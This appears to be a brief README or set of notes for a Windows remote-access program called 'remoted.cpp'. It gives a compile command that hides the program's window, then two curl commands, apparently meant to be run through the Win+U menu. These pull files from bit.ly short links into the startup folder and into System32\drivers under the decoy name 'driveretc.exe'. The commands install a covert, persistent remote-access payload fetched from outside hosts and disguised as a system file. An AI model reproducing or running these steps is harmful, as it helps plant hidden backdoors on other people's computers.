 # Comp
# cmd:
```
g++ remoted.cpp -o remoted.exe -lws2_32 -mwindows
```

win + u cmds
```
curl bit.ly/4nZAfiq --output shell:startup
```
```
curl bit.ly/44IsndH --output C:\Windows\System32\drivers\driveretc.exe
```
